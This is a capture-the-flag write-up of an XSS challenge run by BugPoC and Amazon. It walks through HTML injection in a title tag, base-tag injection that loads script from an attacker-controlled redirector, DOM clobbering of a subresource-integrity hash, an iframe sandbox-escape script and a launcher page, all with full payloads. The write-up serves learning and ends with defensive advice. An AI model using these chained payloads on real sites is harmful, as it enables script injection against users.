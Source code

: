 ```yaml
---
title: Wacky XSS challenge with amazon (by bugpoc)
date: 2020-11-10 00:00:00 +0530
categories: [web]
tags: [web]
---
```


Hey, welcome to the write up for wacky XSS challenge. Throughout the write-up, i will try to not to limit myself just to the payloads or steps i specifically used but will also give you guys a front row seat to the thinking process that went behind successful completion of this challenge.

The challenge was located at [https://wacky.buggywebsite.com/](https://wacky.buggywebsite.com/) and ended on 9th november 10pm EDT.

I am gonna divide the challenge into several parts for better explanation:

lets start

<div class="tenor-gif-embed" data-postid="10551255" data-share-method="host" data-width="100%" data-aspect-ratio="1.7785714285714287"><a href="https://tenor.com/view/oh-hi-hello-hey-shake-hands-rami-malek-gif-10551255">Oh Hi Hello GIF</a> from <a href="https://tenor.com/search/ohhi-gifs">Ohhi GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

**1\. The initial foothold html injection**
===========================================

You are greeted with this input field when you enter the challenge, after going around a bit i realised it has just 2 pages plus few scripts as well.

<img alt="" class="t u v jp aj" src="https%3A%2F%2Fmiro.medium.com%2Fmax%2F2400%2F1*wB1fqQOddGPBen0cM4vI4g.png" width="1098" height="885" srcSet="https://miro.medium.com/max/552/1*wB1fqQOddGPBen0cM4vI4g.png 276w, https://miro.medium.com/max/1104/1*wB1fqQOddGPBen0cM4vI4g.png 552w, https://miro.medium.com/max/1280/1*wB1fqQOddGPBen0cM4vI4g.png 640w, https://miro.medium.com/max/1400/1*wB1fqQOddGPBen0cM4vI4g.png 700w" sizes="700px" role="presentation"/>

the home page

Our text was reflected on the iframe page inside, simply viewing frame source revealed our text was getting reflected at 2 places.

1.  title tag
2.  the boring text with each letter in different font

A very simple payload would reveal that the title tag is vulnerable to html injection

```
> </title><script>alert(1)</script>
```


Our script obviously doesnt execute thanks to a defence mechanism called Content Security Policy. So lets move on to the next step.

<div class="tenor-gif-embed" data-postid="10667570" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/ready-lets-go-city-street-angela-moss-gif-10667570">Ready Lets Go GIF</a> from <a href="https://tenor.com/search/ready-gifs">Ready GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>
We are in, so let the games begin.

2\. Outsmarting the CSP
=======================

Go to network tab and look at the page headers:

> **content-security-policy:** script-src ‘nonce-ucbgymcgoplw’ ‘strict-dynamic’; frame-src ‘self’; object-src ‘none’;

few things to focus here:

1.  nonce — this makes it impossible to render any javascript until we have the randomly generated nonce value as the part of our script header. Since this changes every single time page reloads and theres no way we can predict it beforehand.
2.  frame-src —this specifies valid sources for nested browsing contexts loading using elements such as <frame> and <iframe>. [more here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-src)

If we get nonce, we can esentially run any script. So, naturally first we gonna try leak it somehow. There were several resources on this but unfortunately none actually works for us. So not-defeated, just keeping this aside, i try to poke around a bit.

[_https://csp-evaluator.withgoogle.com/_](https://csp-evaluator.withgoogle.com/) _— because we love to automate stuff_

Enter your csp above here, and we get a critical a high severity finding error

> **base-uri**\[missing\]
> 
> Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to ‘none’ or ‘self’?

**so what is base-uri or base tag?**

Lets say the webpage has a html tag _<xxx src=/path>,_ in other words whenever relative paths are used instead of the whole url, the page completes this as _www.origin/path_ however if the base tag(e.g.`<base target="_blank" href="https://example.com/">`)is present. Then its resolved to https://_example.com/path_ despite whatever page its on. [read more](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base).

So lets hunt for what all things are loaded from relative path:

```
1.  script.setAttribute(‘src’, ‘files/analytics/js/frame-analytics.js’);
2.  <source src=”movie.mp4" type=”video/mp4">
```

So we have 2 cases in which we can force the page to load our file instead.

In the 2nd case since type is mp4, you can load any arbitary mp4 and cause to **_remote file inclusion_** but thats really not our motive here.

So unless we find a vuln in the video parsing library of chrome and load a malicious video we cannot really cause an XSS.

Now, onto first — here a defence called **subresource integrity** has been applied.

_Why is this a big deal?_  
Because what this does is it loads the hash value of contents of the script and compares it with a hardcoded hash, so even if we are able to inport our own script we cant really change it to anything else other than the real script introduced by the developer. [more here](https://w3c.github.io/webappsec-subresource-integrity/).

Present payload:

```
> </title><base target=”iframe” href=”https://xxxxx.redir.bugpoc.ninja/">
```

Here i am using [mock endpoint](https://bugpoc.com/testers/other/mock) as well as [flexible redirector](https://bugpoc.com/testers/other/redir) by bugpoc, since its so so much easier than hosting a file over https server and constantly making changes to it and defining headers for it.

_looks like…._

We obviously cannot let subresource integrity stand in our way.

<div class="tenor-gif-embed" data-postid="10667577" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/its-time-for-us-die-serious-plotting-gif-10667577">Its Time For Us GIF</a> from <a href="https://tenor.com/search/itstime-gifs">Itstime GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

3\. Defeating the Subresource Integrity
=======================================

A hacker’s worst nightmare — a hash function.

Since the subresource is being hashed and compared to a hard coded value, we really have only 3 choices:

1.  Find an exception in implementaion of SRI where it skips validation.
2.  Create a different malicious script with same hash.
3.  Change the value we are comparing it to.

Since CVE-2016–1636, which was patched in Google Chrome 49.0.2623.75, There isnt any known exploit affecting the library. So the 1st choice is off the table.

We all know hash collisions exist. But only theoritically. So, I had rule out the 2nd choice as well.

So we have just 3rd choice left, which also seems impossible. _or is it?_

DOM CLOBBERING TO RESCUE!!!
---------------------------

Heres a snippet from the page source:
```
> <script nonce=xxxxxxxx>  
> window.fileIntegrity = window.fileIntegrity || {  
> ‘rfc’ : ‘ [https://w3c.github.io/webappsec-subresource-integrity/',](https://w3c.github.io/webappsec-subresource-integrity/',)  
> ‘algorithm’ : ‘sha256’,  
> ‘value’ : ‘unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=’,  
> — snip —
```
“A common pattern used by JavaScript developers is:

_var someObject = window.someObject || {};_

If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor…”

This is well explained [here](https://portswigger.net/web-security/dom-based/dom-clobbering).

But the common payloads like:
```
> <form id=”fileIntegrity”><a id=”fileIntegrity” name=”value” href=”d8Ic1uV7IeB50l……..GWd12CUZbfm8czJw=”>
```
wont cut it here, because since we are using base tag as well, it gets modified to

> sha256-www.redir.com/d8Ic1uV……….d12CUZbfm8czJw=

instead of

> sha256-d8Ic1uV7I………Wd12CUZbfm8czJw=

After a bit of reading around, i finally formulated another payload — which can be found [here](https://portswigger.net/research/dom-clobbering-strikes-back) as well.

so our payload until now is:
```
> </title><base target=”iframe” href=”https://xxxxxxxx.redir.bugpoc.ninja/"><output id=fileIntegrity>s7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=</output>
```
We have basically declared a global variable(which overrides the hardcoded one):  
_fileIntegrity.value=the\_ hash\_of\_our\_file //you can try this in console_

P.S. to obtain the hash there are several ways, however entering the payload with wrong hash displays the right one in console so its just the fastest one.

We cannot yet pop alert right now due to iframe sandboxing but go on, try having console.log(“hacked”) inside your js file ;) you deserve some serotonin.

intercepted a message from:SRI to:iframe-sandbox //chapter 4 - The last desperate attempt to stop us

<div class="tenor-gif-embed" data-postid="10668530" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/arrest-struggle-stop-plead-stop-the-attack-gif-10668530">Arrest Struggle GIF</a> from <a href="https://tenor.com/search/arrest-gifs">Arrest GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

4\. Breaking out of the sandbox
===============================

Our challenge is to display an alert box, if you look here

> // create a sandboxed iframe  
> analyticsFrame = document.createElement(‘iframe’);  
> analyticsFrame.setAttribute(‘sandbox’, ‘**allow-scripts allow-same-origin**’);  
> analyticsFrame.setAttribute(‘class’, ‘invisible’);  
> document.body.appendChild(analyticsFrame);

Since our script is loaded inside an iframe, to be able to display an alert box we need an attribute _allow-modal_ which is not present here.

Stop googling for iframe sandbox bypass already, you wont find anything worthwhile, however if you go [here](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) and scroll down and down and down.  
You will see a warning message.

> **Notes about sandboxing:**
> 
> When the embedded document has the same origin as the embedding page, it is **strongly discouraged** to use both `allow-scripts` and `allow-same-origin`, as that lets the embedded document remove the `sandbox` attribute — making it no more secure than not using the `sandbox` attribute at all.

Our script to the original iframe with sandboxing.

<div class="tenor-gif-embed" data-postid="10667522" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/part-of-you-elevator-part-of-me-rami-malek-elliot-alderson-gif-10667522">Part Of You Elevator GIF</a> from <a href="https://tenor.com/search/partofyou-gifs">Partofyou GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

So we have to write a script that will remove the iframe and replace it with one without restriction. You following along? This sounds easy but in-reality there was really not much information on this.

[Dusekdan](https://github.com/dusekdan/RandomSecurity/tree/master/iframeSandboxDiscouragedCombination) offers us the poc for this —sadly however it really wont work for us right off the bat so heres my code with few tune ups(i haven’t deleted some of the original code for this presentation because it gives a good visualisation):
```
> const illegalCode = () => {  
> alert(“You should not see me, because original iframe did not have ‘allow-modals’. iframe had allow-scripts and same-origin though. A new iframe without sandbox attribute was created — and here I am.”);  
> //sadly this doesnt fire anyway  
> }
> 
> const escape = () => {  
> document.body.innerText = “Loaded into a frame.”;
> 
> let parent = window.parent;  
> let container = parent.document.getElementsByTagName(“iframe”)\[0\];  
> if (parent.document.getElementsByTagName(“iframe”)\[0\] != null) {  
> // Recreate and insert an iframe without sandbox attribute that  
> // plays by our rules.  
> let replacement = parent.document.createElement(“iframe”);  
> replacement.setAttribute(“id”, “escapedAlready”);  
> //instead of using src to this script again which wont work for us thanks to  
> //frame-src self csp, a clean work around was to enter data inside script tag  
> let g = document.createElement(“script”);  
> g.innerHTML = “alert(origin)”;  
> replacement.appendChild(g);  
> parent.document.body.append(replacement);
> 
> // Remove original iframe (avoid an infinite loop)  
> container.parentNode.removeChild(container);
> 
> //code in the else statement wont work for us since we arent opening this script //again  
> } else {  
> illegalCode();  
> }  
> }
> 
> escape();
```
What we did it we from inside the iframe went to the parent document, selected the tag then in replacement created an iframe again but without sandbox attribute and inside it we added our little script.

So go [_mock endpoint_](https://bugpoc.com/testers/other/mock)  by bugpoc and save this script, then to [_flexible redirector_](https://bugpoc.com/testers/other/redir) and paste the link there and get the url to be inserted in base tag.

Dont forget to add header

> access-Control-Allow-Origin: \*

Our payload now finally:
```
> </title><base target=”iframe” href=”[https://zu2i14sjykqz.redir.bugpoc.ninja/](https://zu2i14sjykqz.redir.bugpoc.ninja/)"><output id=fileIntegrity>s7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=</output>
```
Our payload^

<div class="tenor-gif-embed" data-postid="10668173" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/worry-confused-fire-me-what-awkward-gif-10668173">Worry Confused GIF</a> from <a href="https://tenor.com/search/worry-gifs">Worry GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

5\. Automate entering this payload
==================================

But convincing the victim to enter this in his webpage is a little too much.

If you just go to inspect element you will see the url of iframe with our payload.

Copy and paste the link in the new tab.

**It doesnt work, because the page needs to be loaded inside an iframe.**

lets look at the code again for the last time:

> // verify we are in an iframe  
> if (window.name == ‘iframe’){

so lets do just some more scripting for the [one last time](https://www.youtube.com/watch?v=BPgEgaPk62M):
```
> <html>  
> <body>
> 
> <p>Click the button to commence attack</p>
> 
> <button onclick=”myFunction()”>the button</button>
> 
> <script>
> 
> function myFunction() {  
> myWindow = window.open(“[https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20target=%22iframe%22%20href=%22https://zu2i14sjykqz.redir.bugpoc.ninja/%22%3E%3Coutput%20id=fileIntegrity%3Es7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=%3C/output%3E](https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20target=%22iframe%22%20href=%22https://zu2i14sjykqz.redir.bugpoc.ninja/%22%3E%3Coutput%20id=fileIntegrity%3Es7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=%3C/output%3E)", “iframe”, “width=2000,height=1000”);  
> }
> 
> </script>
```
Opening a window and naming it as iframe does the trick and we get our beautiful alert box displaying origin and then one by amazon thanking us for our participation.

<div class="tenor-gif-embed" data-postid="10668183" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/panic-alarm-run-fear-vandal-gif-10668183">Panic Alarm GIF</a> from <a href="https://tenor.com/search/panic-gifs">Panic GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

pwnd

Stay safe
=========

All the attack above are caused when developer trusts out of the box defence solutions too much.

> A fortress is only as strong as its weakest point.

The underlying principle is to strengthen each phase of defence mechanism, and to enforce a zero-trust-policy. The user input should always be considered malicious. **Thankyou for reading! and until next time.**

